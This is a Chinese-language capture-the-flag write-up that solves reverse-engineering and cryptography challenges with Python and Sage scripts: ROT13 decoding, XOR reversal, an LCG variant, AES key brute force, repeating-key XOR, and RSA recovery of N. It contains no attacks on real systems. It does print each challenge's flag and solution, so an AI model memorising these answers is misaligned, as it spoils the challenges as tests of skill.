

输入的字符串经过ttd加密后与相等即可.

```
str="Jr_j11y_s1tug_g0_raq_g0_raq_pnml"
flag=""
for i in range(len(str)):
        if 65<=ord(str[i])<=90 or 97<=ord(str[i])<=122:
                if 65<=ord(str[i])<=77:
                        flag+=chr(ord(str[i])+13)
                if 78<=ord(str[i])<=90:
                        flag+=chr(ord(str[i])-13)

                if 97<=ord(str[i])<=109:
                        flag+=chr(ord(str[i])+13)
                if 110<=ord(str[i])<=122:
                        flag+=chr(ord(str[i])-13)

        else:
                flag+=str[i]
print flag
```

flag{We_w11l_f1ght_t0_end_t0_end_cazy}

## cute_doge

base64直接出



flag{Ch1na_yyds_cazy}

## hello_py

pyc反编译得到如下：
```python 
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
import threading
import time

def encode_1(n):
    global num
    if num >= 0:
        flag[num] = flag[num] ^ num
        num -= 1
        time.sleep(1)
    if num <= 0:
        pass
def encode_2(n):
    global num
    if num >= 0:
        flag[num] = flag[num] ^ flag[num + 1]
        num -= 1
        time.sleep(1)
    if num < 0:
        pass
Happy = [
    44,
    100,
    3,
    50,
    106,
    90,
    5,
    102,
    10,
    112]
num = 9
f = input('Please input your flag:')
if len(f) != 10:
    print('Your input is illegal')
    continue
flag = list(f)
j = 0
print("flag to 'ord':", flag)
t1 = threading.Thread(target= encode_1, args=(1,))
t2 = threading.Thread(target= encode_2, args=(2,))
t1.start()
time.sleep(0.5)
t2.start()
t1.join()
t2.join()
print(flag)
if flag == Happy:
    print('Good job!')
    continue
print('No no no!')
continue
```
得知，flag偶数位和下一位异或，奇数位和flag下标异或，反推之，可以获得flag
```python
Happy = [
    44,
    100,
    3,
    50,
    106,
    90,
    5,
    102,
    10,
    112]
num = 0

Happy[num] ^= Happy[num+1]
num += 1
Happy[num] ^= num
num += 1
Happy[num] ^= Happy[num+1]
num += 1
Happy[num] ^= num
num += 1
Happy[num] ^= Happy[num+1]
num += 1
Happy[num] ^= num
num += 1
Happy[num] ^= Happy[num+1]
num += 1
Happy[num] ^= num
num += 1
Happy[num] ^= Happy[num+1]
num += 1
Happy[num] ^= num
for i in Happy:
    print(chr(i),end='')
```

flag{He110_cazy}

# crypto

## LinearEquations(!!!!!)

LCG 的变种，知道连续的 5 个结果后，三个方程三个未知数，解方程即可：

```
data = [2626199569775466793, 8922951687182166500, 454458498974504742, 7289424376539417914, 8673638837300855396]
n = 10104483468358610819

s0 = mod(data[0], n)
s1 = mod(data[1], n)
s2 = mod(data[2], n)
s3 = mod(data[3], n)
s4 = mod(data[4], n)

B = ((s4 - s3) * (s2 - s1) - (s3 - s2) * (s3 - s2)) / ((s2 - s1) * (s2 - s1) - (s1 - s0) * (s3 - s2))
print(hex(B))
A = ((s3 - s2) - B * (s1 - s0)) / (s2 - s1)
print(hex(A))
C = s2 - A * s1 - B * s0
print(hex(C))

from Crypto.Util.number import long_to_bytes

flag = long_to_bytes(int(A)) + long_to_bytes(int(B)) + long_to_bytes(int(C))
print('cazy{' + flag.decode() + '}')
```

cazy{L1near_Equ4t1on6_1s_34sy}

## no_can_no_bb

直接从[1,1<<20]之间爆破key

```
#coding:utf8
from Crypto.Util.number import long_to_bytes
from Crypto.Cipher import AES
enc = b'\x9d\x18K\x84n\xb8b|\x18\xad4\xc6\xfc\xec\xfe\x14\x0b_T\xe3\x1b\x03Q\x96e\x9e\xb8MQ\xd5\xc3\x1c'
def pad(m):
    tmp = 16-(len(m)%16)
    return m + bytes([tmp for _ in range(tmp)])
def encrypt(m,key):
    aes = AES.new(key,AES.MODE_ECB)
    return aes.encrypt(m)
def decrypt(m,key):
    aes = AES.new(key,AES.MODE_ECB)
    return aes.decrypt(m)
if __name__ == "__main__":
    for k in range(1,1<<20):
       print(k)
       key = pad(long_to_bytes(k))
       c = decrypt(enc,key)
       if c.startswith(b'cazy'):
          print(c)
          break
```

cazy{n0_c4n,bb?n0p3!}

## no_cry_no_can

key长度为5

flag前5位是 craz{

flag与key的循环做异或

得到 一串乱码字符乱码字符前五位与 craz{做异或即得到 key

然后再将乱码字符与key循环做异或即得到flag.

```
#coding:utf8

a = '<pH\x86\x1a&"m\xce\x12\x00pm\x97U1uA\xcf\x0c:NP\xcf\x18~l'
msg = 'cazy{'
key = ''
for i in range(5):
   key += chr(ord(msg[i]) ^ ord(a[i]))

ans = ''
for i in range(27):
   ans += chr(ord(key[i%5])^ord(a[i]) )

print(ans)
```

cazy{y3_1s_a_h4nds0me_b0y!)

## no_math_no_cry

```
#sagemath
from Crypto.Util.number import*
a=10715086071862673209484250490600018105614048117055336074437503883703510511248211671489145400471130049712947188505612184220711949974689275316345656079538583389095869818942817127245278601695124271626668045250476877726638182396614587807925457735428719972874944279172128411500209111406507112585996098530169
a=a-0x0338470
a=sqrt(a)
a=(1<<500)-a
#a=175590630715657737802001590114848305707265818075457058980756525809979783549
a=long_to_bytes(a)
print(a)
```

cazy{1234567890_no_m4th_n0_cRy}

## math

通过式子构造然后计算出N，之后直接用RSA得到flag

```
from Crypto.Util.number import long_to_bytes
import gmpy2

e = 65541
y = 5196196050705723138112029354241213560365131687283777103991974590050330881852293037857030837243139843347360405640059895049182607258744842918637025468416691
x = 6348855136381531315498600386011500088965179774532589776023316381462419038863507425114122666114524009822536486875402878926042335189942205851772971588914811
d = 122297620802567932272431752376550733645082884507915937283008510000806801850121325362670337310514202668900078075448905729834351066168587008003347874120754463264395652516225963591350427478627227639330490916641343050747799692445329361968557854727026637067072688408629764479524345994057879613552701364053945043441
kn = e * d - 1
count = 0
def solve(a, b, c):
    D = b ** 2 - 4 * a * c
    assert gmpy2.is_square(D)
    x1 = (-b + gmpy2.isqrt(D)) // (2 * a)
    x2 = (-b - gmpy2.isqrt(D)) // (2 * a)
    return x1, x2


for k in range(3, e):
    if kn % k == 0:
        count += 1
        phi_n = kn // k
        # coefficients of quadratic eq
        a = x - 1
        b = x * y - 1 + (x - 1) * (y - 1) - phi_n
        c = (y - 1) * (x * y - 1)
        try:
            k1, k2 = solve(a, b, c)
            if (x * y - 1) % k1 == 0:
                k2 = (x * y - 1) // k1
            elif (x * y - 1) % k2 == 0:
                k1, k2 = k2, (x * y - 1) // k2
            else:
                assert False
            p, q = x + k2, y + k1
            N = p * q
            print(N)
            break
        except AssertionError:
            pass
N=132049033212321128961095360579092793097846449540095195226860525427305622643099813604302673393657622726518179554587185226587258912172045948032938881035705666842369419365682692099428863197844298026451076265894311964282953036219113238502314095281998484630467947592361688453338426734324578977973086209026371996393
c = 63282442425364769361603505235966142893985650589817177416369151290644447029685823704984026247101140306565860740775935570861775035489995667315276076320468661500183173682414994192590926535733644915085251753700560860514158340566848621012798175092005695320985308654278089690864203374564983250793044163777615225734
print(long_to_bytes(pow(c, d, N)))
```

flag{c4617a206ba83d7f824dc44e5e67196a}